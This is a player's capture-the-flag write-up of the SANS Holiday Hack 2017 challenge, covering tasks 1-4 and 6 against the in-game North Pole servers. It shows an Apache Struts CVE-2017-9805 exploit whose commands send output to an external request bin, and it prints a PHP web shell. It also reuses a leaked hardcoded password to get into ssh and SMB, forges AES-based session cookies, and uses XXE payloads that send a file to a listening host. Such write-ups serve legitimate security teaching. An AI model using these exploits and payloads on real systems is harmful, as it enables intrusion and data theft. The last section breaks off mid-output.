




# 1) Visit the North Pole and Beyond at the Winter Wonder Landing Level to collect the first page of The Great Book using a giant snowball. What is the title of that page?

Some snowball bouncing later...


We are rewarded with [GreatBookPage1.pdf](book/GreatBookPage1.pdf). The title of the page is "About This Book...".


# 2) Investigate the Letters to Santa application at https://l2s.northpolechristmastown.com. What is the topic of The Great Book page available in the web root of the server? What is Alabaster Snowball's password?

Looking at the source, we find a link to the development version:
```html
<!-- Development version -->
<a href="http://dev.northpolechristmastown.com" style="display: none;">Access Development Version</a>
```

The development version takes us to a "Toy Request Form", where we can add, edit and remove toy requests. It has an interesting footer:

```html
<div id="the-footer"><p class="center-it">Powered By: <a href="https://struts.apache.org/">Apache Struts</a></p></div>
<!-- Friend over at Equal-facts Inc recommended this framework-->
```
"Equal-facts" seems very likely to refer to Equifax, who was recently hacked due to an Apache Structs vulnerability [CVE-2017-5638](https://nvd.nist.gov/vuln/detail/CVE-2017-5638). However, after "talking to" Sparkle Redberry  (aka rolling a snowball to the exit of the Winconceivable: The Cliffs of Winsanity level) we learn that the site is apperently not vulnerable to this same issue:

> That business with Equal-Facts Inc was really unfortunate. I understand there are a lot of different exploits available for those vulnerable systems. Fortunately, Alabaster said he tested for CVE-2017-5638 and it was NOT vulnerable. Hope he checked the others too.
> 
> -- Sparkle Redberry, Hint 6

We also confirm this by running the [metasploit module for CVE-2017-5638](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/struts2_content_type_ognl.rb) and seeing that the site does indeed not seem to be affected. Fortunately (!?) there are also other recently disclosed Structs vulnerabilites, as hinted to by the last part of Hint 6.

The second Apache Structs CVE that comes up a lot when searching for recent vulnerabilities is [CVE-2017-9805](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9805), a remote code execution flaw related to XML decoding. That it is this flaw we are supposed to use is also more or less confirmed in the next hint from Sparkle Redberry:

> Apache Struts uses XML. I always had problems making proper XML formatting because of special characters. I either had to encode my data or escape the characters properly so the XML wouldn't break. I actually just checked and there are lots of different exploits out there for vulnerable systems. Here is a [useful article](https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code).
>
> -- Sparkle Redberry, Hint 7

The [useful article](https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code) explains to us the importance of being able to alter public exploits, then gives us [yet another public exploit](https://github.com/chrisjd20/cve-2017-9805.py). Let's see if we can get this improved version working.

After fixing some python 3 incompatablities (doing a little `string->bytes->base64->string` dance) it does seem like the exploit is working:

```
> python .\task2\cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c whoami
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
```

We can verify this by, for example, running wget/curl on site where we can monitor for requests. https://requestb.in/
make this very easy, set up a private bin and have the server wget to it:

```
> python .\task2\cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c "wget https://requestb.in/[BIN_ID]?a=$(whoami)"
```

After refresing the inspect view of our request bin we see that the server did make a request, 
confirming that the exploit is working. We also find that the current user is `alabaster_snowball`:



Using the same techique we can run shell commands and get their response fairly easily. It's still a
bit more annoying than we would like though. One of the earlier hints tells us there is a webshell
already on the server, why don't we find that instead?

> Alabaster's primary backend experience is with Apache Struts. I love Apache and have a local instance set up on my home computer with a web shell. Web shells are great as a backdoor for me to access my system remotely. I just choose a really long complex file name so that no one else knows how to access it.
>
> -- Sparkle Redberry, Hint 3


```
Command: find -name \'*.php\' 2>&1 | curl --data-urlencode @- "https://requestb.in/[BIN_ID]"

[...]
./tmp/dillydilly1337.php
./var/www/html/.b0w7Q9w081A909Y8GzA7.php
./var/www/html/.VaZQaWt70e4dVAS0g0TS.php
./var/www/html/dillydilly1337.php
./var/www/html/process.php
./var/www/html/.K2tN5T3RX2x6j2NnZ3W1.php
[...]


Command: cat ./var/www/html/.K2tN5T3RX2x6j2NnZ3W1.php | base64

PD9waHAgZWNobyAiPHByZT4iIC4gc2hlbGxfZXhlYygkX0dFVFtlXSkgLiAiPC9wcmU+IjsgPz4=
```

The `.K2tN5T3RX2x6j2NnZ3W1.php` seems to be a simple enough web shell:

```php
<?php echo "<pre>" . shell_exec($_GET[e]) . "</pre>"; ?>
```

We find the shell by visiting https://l2s.northpolechristmastown.com/.K2tN5T3RX2x6j2NnZ3W1.php. Notice that we are now 
back on the "main" site and no longer on the java-based dev domain. 


## What is the topic of The Great Book page available in the web root of the server?
The first question of the task should now be simple,
we have a shell and can run commands. Let's first find and extract the great book chapter:

```
$ ls -la
https://l2s.northpolechristmastown.com/.K2tN5T3RX2x6j2NnZ3W1.php?e=ls%20-la

total 1812
drwxrwxrwt 6 www-data           www-data              4096 Dec 16 10:18 .
drwxr-xr-x 3 root               root                  4096 Oct 12 14:35 ..
                                [...]
-rw-r--r-- 1 alabaster_snowball alabaster_snowball      56 Dec 16 03:44 .K2tN5T3RX2x6j2NnZ3W1.php
-r--r--r-- 1 root               www-data           1764298 Dec  4 20:25 GreatBookPage2.pdf
                                [...]

$ base64 GreatBookPage2.pdf
https://l2s.northpolechristmastown.com/.K2tN5T3RX2x6j2NnZ3W1.php?e=base64%20GreatBookPage2.pdf

[...]
```

We then decode the base64 locally, giving us the [GreatBookPage2.pdf](book/GreatBookPage2.pdf)!
The topic of the Great Book is "On The Topic Of Flying Animals". We also make sure to enter
its sha1 hash (`aa814d1c25455480942cb4106e6cde84be86fb30`) on the Stocking page to add it to
our stocking.

It should also be noted that the web shell we are using is owned by the current user and created
after the level was started. This probably means we are using someone elses web shell, and not the
one hinted to in Hint 3. But oh well, what works works :).

## What is Alabaster Snowball's password?

Hint 8 again points us in the direction of the development site:

> Pro developer tip: Sometimes developers hard code credentials into their development files. Never do this, or at least make sure you take them out before publishing them or putting them into production. You also should avoid reusing credentials for different services, even on the same system.
>
> -- Sparkle Redberry, Hint 8

The first step would then be to find where on the file system that it is located. Since it's a java webapp,
let's assume it has a .jar somewhere close:

```
$ find / -name *.jar
https://l2s.northpolechristmastown.com/.K2tN5T3RX2x6j2NnZ3W1.php?e=find%20/%20-name%20*.jar

/usr/share/java/libintl.jar
/opt/apache-tomcat/webapps/ROOT/WEB-INF/lib/struts2-convention-plugin-2.5.12.jar
/opt/apache-tomcat/webapps/ROOT/WEB-INF/lib/commons-collections-3.2.1.jar
[...]
```

It seems like the site is located in `/opt/apache-tomcat/webapps/ROOT/`. Let's see if we are lucky
enough that we can simply grep for the password 
(see also: [How do I find all files containing specific text on Linux?
](https://stackoverflow.com/questions/16956810/how-do-i-find-all-files-containing-specific-text-on-linux)):

```
$ grep -C 4 -rnw '/opt/apache-tomcat/webapps/ROOT/' -e 'password'
https://l2s.northpolechristmastown.com/.K2tN5T3RX2x6j2NnZ3W1.php?e=grep%20-C%204%20-rnw%20%27/opt/apache-tomcat/webapps/ROOT/%27%20-e%20%27password%27

[...]
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class-1-    public class Connect {
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class-2-            final String host = "localhost";
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class-3-            final String username = "alabaster_snowball";
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:4:            final String password = "stream_unhappy_buy_loss";   
[...]
```

We find a password used for MySql. Judging by the hint earlier, perhaps this is also the password
for the linux user?

We can confirm this by logging in to the server via ssh:
```
peter@peter-VirtualBox:~/Desktop$ ssh alabaster_snowball@l2s.northpolechristmastown.com
alabaster_snowball@l2s.northpolechristmastown.com's password: 
Linux l2s 4.9.0-4-amd64 #1 SMP Debian 4.9.51-1 (2017-09-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Dec 16 11:08:13 2017 from 10.142.0.2
alabaster_snowball@l2s:/tmp/asnow.vZQOUSD0GKHr8q1lf97RX9cq$ 
```

Alabaster Snowball's password is `stream_unhappy_buy_loss`.


# 3) The North Pole engineering team uses a Windows SMB server for sharing documentation and correspondence. Using your access to the Letters to Santa server, identify and enumerate the SMB file-sharing server. What is the file server share name?

For some reason, `nmap` is already installed on the Letters to Santa system. We are also told that
the server we are looking for is in the 10.142.0.0/24 subnet from the scope section:

> SCOPE: For this entire challenge, you are authorized to attack ONLY the Letters to Santa system at l2s.northpolechristmastown.com AND other systems on the internal 10.142.0.0/24 network that you access through the Letters to Santa system. 

Since we are looking for an SMB server, we also have to tell nmap to include the standard TCP port used by SMB (445)
in its scan. This is also made clear from the first hint to the level:

> Nmap has default host discovery checks that may not discover all hosts. To customize which ports Nmap looks for during host discovery, use -PS with a port number, such as -PS123 to check TCP port 123 to determine if a host is up.
>
> -- Holly Evergreen, Hint 1

Performing the scan (again using the web shell from before), we find a couple of internal servers:

```
$ nmap -PS445 10.142.0.0/24
https://l2s.northpolechristmastown.com/.K2tN5T3RX2x6j2NnZ3W1.php?e=nmap%20-PS445%2010.142.0.0/24

Starting Nmap 7.40 ( https://nmap.org ) at 2017-12-16 14:50 UTC
Nmap scan report for hhc17-l2s-proxy.c.holidayhack2017.internal (10.142.0.2)
Host is up (0.00022s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
2222/tcp open  EtherNetIP-1

Nmap scan report for hhc17-apache-struts1.c.holidayhack2017.internal (10.142.0.3)
Host is up (0.00020s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
4444/tcp open  krb524
5555/tcp open  freeciv

Nmap scan report for edb.northpolechristmastown.com (10.142.0.6)
Host is up (0.00021s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
389/tcp  open  ldap
8080/tcp open  http-proxy

Nmap scan report for hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)
Host is up (0.00072s latency).
Not shown: 996 filtered ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap scan report for hhc17-apache-struts2.c.holidayhack2017.internal (10.142.0.11)
Host is up (0.00012s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 256 IP addresses (5 hosts up) scanned in 6.46 seconds
```

Currently we are only intrested in the smb server, `hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)`.
We want to find the file server share name and to do so we probably have to talk to the server over the
smb protocol. The [`smbclient`](http://www.tldp.org/HOWTO/SMB-HOWTO-8.html), which seems to be included by
default for at least Ubuntu, should do fine.

There is a problem though, we do not seem to be able to run `smbclient` via our web shell:

```
$ smbclient || echo failed
https://l2s.northpolechristmastown.com/.K2tN5T3RX2x6j2NnZ3W1.php?e=smbclient%20||%20echo%20failed

failed
```

Fourtunately, we do have ssh access to the letters to santa server. Logging in directly to the
server brings us to a very locked down account that is of no real use. But, ssh can also be used
to forward traffic on local ports via the remote host. Using ssh port forwarding, we can setup
a connection to the internal smb server via the letters to santa server:

```
peter@peter-VirtualBox:~$ ssh -N -L 4455:hhc17-smb-server.c.holidayhack2017.internal:445 alabaster_snowball@l2s.northpolechristmastown.com
```

The command forwards connection on the local port 4455 to port 445 on the 
`hhc17-smb-server.c.holidayhack2017.internal` server, via the ssh connection
to `l2s.northpolechristmastown.com`. We can then point the `smbclient` to our 
local port 4455 and we are able to talk to the internal smb server.

The only thing remaining now is the username and password. But it turns out that
Alabaster Snowball is rather lazy... Reusing the same combination grants us access
also on the smb server:

```
peter@peter-VirtualBox:~$ smbclient -L localhost -p 4455 -U alabaster_snowball%stream_unhappy_buy_loss
Domain=[HHC17-EMI] OS=[Windows Server 2016 Datacenter 14393] Server=[Windows Server 2016 Datacenter 6.3]

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	FileStor        Disk      
	IPC$            IPC       Remote IPC
```

Having found the name of the shares, let's try connecting to them. Both the
`ADMIN$` and `C$` give us an error saying `NT_STATUS_BAD_NETWORK_NAME`. Google
helps us translate this to mean that we are not allowed to access those Disks.
We can connect to the `FileStor` disk though:

```
$ smbclient '\\localhost\FileStor\' -p 4455 -U alabaster_snowball%stream_unhappy_buy_loss
Domain=[HHC17-EMI] OS=[Windows Server 2016 Datacenter 14393] Server=[Windows Server 2016 Datacenter 6.3]
smb: \> 
```

Using the `ls` and `get` command, we find and retreive the next book page (the other files did not have much useful content in them):

```
smb: \> ls
  .                                   D        0  Wed Dec  6 22:51:46 2017
  ..                                  D        0  Wed Dec  6 22:51:46 2017
  BOLO - Munchkin Mole Report.docx      A   255520  Wed Dec  6 22:44:17 2017
  GreatBookPage3.pdf                  A  1275756  Mon Dec  4 20:21:44 2017
  MEMO - Calculator Access for Wunorse.docx      A   111852  Mon Nov 27 20:01:36 2017
  MEMO - Password Policy Reminder.docx      A   133295  Wed Dec  6 22:47:28 2017
  Naughty and Nice List.csv           A    10245  Thu Nov 30 20:42:00 2017
  Naughty and Nice List.docx          A    60344  Wed Dec  6 22:51:25 2017

		13106687 blocks of size 4096. 9627423 blocks available

smb: \> get GreatBookPage3.pdf
```

With that, the task is complete!

The file server share name is "FileStor".
The sha1 of [GreatBookPage3.pdf](book/GreatBookPage3.pdf)
is `57737da397cbfda84e88b573cd96d45fcf34a5da`.


# 4) Elf Web Access (EWA) is the preferred mailer for North Pole elves, available internally at http://mail.northpolechristmastown.com. What can you learn from The Great Book page found in an e-mail on that server?

Before doing anything else, let's make things a bit easier for ourselves. First, the web shell is not very convenient,
especially since people keep deleting it... So we create [reverse_shell.py](task2/reverse_shell.py) for setting up a
reverse shell instead. While we are at it we also create [add_ssh.py](task2/add_ssh.py) to add our public ssh key to
the letters to santa server, so we don't have to type Alabaster Snowballs password everytime we do an ssh tunnel.

With those things taken care of, let's see what is on the mail server. As it is an internal server, we once again
have to go via the ssh connection for us to be able to access it:

```
peter@peter-VirtualBox:~$ ssh -N -L 8080:mail.northpolechristmastown.com:80 alabaster_snowball@l2s.northpolechristmastown.com
```

Now if we visit 127.0.0.1:8080 we should be connected to the internal mail.northpolechristmastown.com server. This seems to work,
but instead of a mail website we are greeted by a "Apache2 Ubuntu Default Page". This is because we are sending the wrong 
`Host` header to the server, due to the browser not being aware of the ssh tunneling. We can work around this by adding a
mapping from `mail.northpolechristmastown.com` to `127.0.0.1` in our /etc/hosts file:

```
root@peter-VirtualBox:~# echo "127.0.0.1 mail.northpolechristmastown.com" >> /etc/hosts
```

With that added, we can visit http://mail.northpolechristmastown.com:8080/ and the browser
will send the correct host header, giving us the page we were looking for:



Looking through the source we find the javascript responsible for the login form. It simply submits the
username and password to `login.js`, giving us a status message back. If successful it redirects us
to `account.html`:

```js
// view-source:http://mail.northpolechristmastown.com:8080/js/custom.js
[...]
//-------------------- LOGIN FORM -------------------------//
function login() {
    var address = $('#email').val().trim();
    var passw = $('#password').val().trim();
    if (address && passw && address.match(/[\w\_\-\.]+\@[\w\_\-\.]+\.\w\w\w?\w?/g) !== null) {
        $.post( "login.js", { email: address, password: passw }).done(function( result ) {
            //RETURN A JSON bool value of true if the email and password is correct. false if incorrect
            if (result.bool) {
                $('#email').val('');
                $('#password').val('');
                Materialize.toast('Correct. Logging in now!', 4000);
                setTimeout(function(){
                    //redirect to home.html. This needs to be locked down by cookies!
                    window.location.href = 'account.html';
                }, 1000);
            } else {
                Materialize.toast(result.result, 4000);
            }
        }).fail(function(error) {
            Materialize.toast('Error: '+error.status + " " + error.statusText, 4000);
        })
    } else {
        Materialize.toast('You must put in a correct email and password!', 4000);
    }
}
[...]
```

The first thing that strikes us is the comment just above the redirect to `account.html`, it
seems to imply that there is currently no cookie authentication made on the page. However,
visiting `account.html` directly we see that cookie authentication has seemingly been implemented
as all it does is redirect us back to the login page:

```html
<!-- view-source:http://mail.northpolechristmastown.com:8080/account.html -->

<script>window.location.href='/'</script>
```
As such, it seems like we will have to either log in successfully, or forge the cookie. As
a first step, we try guessing some usernames. After some guessing we find that 
"admin@northpolechristmastown.com" exists. Entering it as username gives us a message
saying "Incorrect Password" rather than a "User Does Not Exist. Ex - 
first.last@northpolechristmastown.com" message we get for other attempts.
We still have no idea about the password though, and the login form does not appear
to be vulnerable to sql injections.

Instead, we turn towards trying to find something else interesting on the site. A good place
to start is the robots.txt file:

```
# http://mail.northpolechristmastown.com:8080/robots.txt

User-agent: *
Disallow: /cookie.txt
```

We don't abide by no Disallow rules! Visiting cookie.txt we see that it defines the
algorithm used for creating the authentication cookies:

```js
// view-source:http://mail.northpolechristmastown.com:8080/cookie.txt

//FOUND THESE FOR creating and validating cookies. Going to use this in node js
function cookie_maker(username, callback){
    var key = 'need to put any length key in here';
    //randomly generates a string of 5 characters
    var plaintext = rando_string(5)
    //makes the string into cipher text .... in base64. When decoded this 21 bytes in total length. 16 bytes for IV and 5 byte of random characters
    //Removes equals from output so as not to mess up cookie. decrypt function can account for this without erroring out.
    var ciphertext = aes256.encrypt(key, plaintext).replace(/\=/g,'');
    //Setting the values of the cookie.
    var acookie = ['IOTECHWEBMAIL',JSON.stringify({"name":username, "plaintext":plaintext,  "ciphertext":ciphertext}), { maxAge: 86400000, httpOnly: true, encode: String }]
    return callback(acookie);
};

function cookie_checker(req, callback){
    try{
        var key = 'need to put any length key in here';
        //Retrieving the cookie from the request headers and parsing it as JSON
        var thecookie = JSON.parse(req.cookies.IOTECHWEBMAIL);
        //Retrieving the cipher text 
        var ciphertext = thecookie.ciphertext;
        //Retrievingin the username
        var username = thecookie.name
        //retrieving the plaintext
        var plaintext = aes256.decrypt(key, ciphertext);
        //If the plaintext and ciphertext are the same, then it means the data was encrypted with the same key
        if (plaintext === thecookie.plaintext) {
            return callback(true, username);
        } else {
            return callback(false, '');
        }
    } catch (e) {
        console.log(e);
        return callback(false, '');
    }
};
```

The most intersting part is the comment in the `cookie_maker` function:
```js
//makes the string into cipher text .... in base64. When decoded this 21 bytes in total length. 16 bytes for IV and 5 byte of random characters
```

The same is said in one of the hints from Pepper Minstix:

> AES256? Honestly, I don't know much about it, but Alabaster explained the basic idea and it sounded easy. During decryption, the first 16 bytes are removed and used as the initialization vector or "IV." Then the IV + the secret key are used with AES256 to decrypt the remaining bytes of the encrypted string.
>
> -- Pepper Minstix, Hint 3

What's interesting here is that the first 16 bytes of the ciphertext are used as IV when decrypting. 
When the ciphertext is created via the `cookie_maker` function then there is an additional 5 bytes
following the IV. But there doesn't have to be if we make a ciphertext ourselves... If we instead
create a ciphertext that is exactly 16 bytes (less would make the IV invalid) then the entire ciphertext
is used as IV and the result of the decryption is an empty string.

We can verify this locally using [nodejs-aes256](https://github.com/jaysvoboda/nodejs-aes256) (We pick
nodejs-aes256 as it seems to match the API used by the snippet above):

```js
// task4/create_cookie.js

let assert = require('assert');
let aes256 = require('./nodejs-aes256.js');

var key = 'need to put any length key in here';
var ciphertext = new Buffer("abcdabcdabcdabcd");
// YWJjZGFiY2RhYmNkYWJjZA==
console.log(ciphertext.toString('base64'));
assert(ciphertext.length === 16);
var plaintext = aes256.decrypt(key, ciphertext);
assert(plaintext === "");
```

The above means we can forge our own cookie for any user without knowing the secret key.
Since we are intersted in the admin account, we change the GUEST cookie that we
currently have so that it instead has a username property of "admin@northpolechristmastown.com".
We then change the ciphertext to the base64 encoded 16-byte string we obtained above. The
plaintext value is kept as "", as that is the value we will get when decrypting our
forged ciphertext:

```
{"name":"admin@northpolechristmastown.com","plaintext":"","ciphertext":"YWJjZGFiY2RhYmNkYWJjZA=="}
```

With that cookie set, we can simply browse to `/account.html` and start reading emails as the
admin user!



Reading trough the emails, we don't find anything particularily interesting sent on the admin account.
Switching to alabaster.snowball (by simply changing the username of the cookie, the rest stays the same)
we do find an email mentioning our sought after [GreatBookPage4.pdf](book/GreatBookPage4.pdf):

```
Hey Santa,

Found this lying around. Figured you needed it.

http://mail.northpolechristmastown.com/attachments/GreatBookPage4_893jt91md2.pdf

:)

-Holly
```

From the book we learn about the lollipop guild, trying to (allegedly) ruin Christmas. Sha1: `f192a884f68af24ae55d9d9ad4adf8d3a3995258` 


# 6) The North Pole engineering team has introduced an Elf as a Service (EaaS) platform to optimize resource allocation for mission-critical Christmas engineering projects at http://eaas.northpolechristmastown.com. Visit the system and retrieve instructions for accessing The Great Book page from C:\greatbook.txt. Then retrieve The Great Book PDF file by following those directions. What is the title of The Great Book page?

Title of the Great Book Page is "The Dreaded Inter-Dimensional Tornadoes" and sha1 is `8943e0524e1bf0ea8c7968e85b2444323cb237af`

To get to the file, you need to first find the eaas server and then exploit an XXE vulnerability to find the page 6. Finding the server is easy, just log on to the l2s server with Alabasters credentials and fire up nmap:

```
nmap -sn 10.142.0.0/24

Starting Nmap 7.40 ( https://nmap.org ) at 2017-12-29 17:48 UTC
[snip]
Nmap scan report for eaas.northpolechristmastown.com (10.142.0.13)
Host is up (0.0012s latency).
Nmap done: 256 IP addresses (7 hosts up) scanned in 3.51 seconds
```

Then for simplicitys sake, I added the eaas.northpolechristmastown.com to my /etc/hosts file and pointed it to 127.0.0.1
Then I updated the port forwarding rules on the SSH connection to forward the local port 80 to 10.142.0.13:80. To do this you can either 
restart the SSH connection with the -L parameter or type ~C on the existing connection and you get the ssh configuration shell (notice you will not see the typed ~C on the shell):

```
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.7UPtdzQ2Df7NEm1bzW4sHuOX$ 
ssh> help
Commands:
      -L[bind_address:]port:host:hostport    Request local forward
      -R[bind_address:]port:host:hostport    Request remote forward
      -D[bind_address:]port                  Request dynamic forward
      -KL[bind_address:]port                 Cancel local forward
      -KR[bind_address:]port                 Cancel remote forward
      -KD[bind_address:]port                 Cancel dynamic forward

alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.7UPtdzQ2Df7NEm1bzW4sHuOX$ 
ssh> -L 80:10.142.0.13:80
Forwarding port.

alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.7UPtdzQ2Df7NEm1bzW4sHuOX$
```

Now you can simply access the site with your browser by visiting the above mentioned url. 
After browsing through the site, you find that it is possible to either download your current elf order as an XML file or upload a new XML to replace the old one. The devs haven't taken XXE attacks into account and they have left the site vulnerable. To exploit the issue, we start by creating 2 files: evil.dtd and evildata.xml (courtesy to SANS article at https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities)

```
daMage@kalima:~/ctfs/sans2017/eaas$ cat evil.dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://10.142.0.3:4443/?%stolendata;'>">
alabaster_snowball@hhc17-apache-struts1:/tmp/tmp.k7O7ldiYc2$

daMage@kalima:~/ctfs/sans2017/eaas$ cat evildata.xml 
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity SYSTEM "http://10.142.0.3:8843/evil.dtd">
    %extentity;
    %inception;
    %sendit;
    ]
>
daMage@kalima:~/ctfs/sans2017/eaas$
```

We then copy the dtd-file to the l2s server and serve it with the pythons SimpleHTTPServer module and set up an nc listener to get the actual data:

```
alabaster_snowball@hhc17-apache-struts1:/tmp/tmp.k7O7ldiYc2$ python -m SimpleHTTPServer 8843 &
[1] 29559
Serving HTTP on 0.0.0.0 port 8843 ...
alabaster_snowball@hhc17-apache-struts1:/tmp/tmp.k7O7ldiYc2$ nc -lvnp 4443 > test.txt &
[2] 29580
```

After setting everything up, it's only required to upload the xml file on the server and witness the results. On the terminal we see:

```
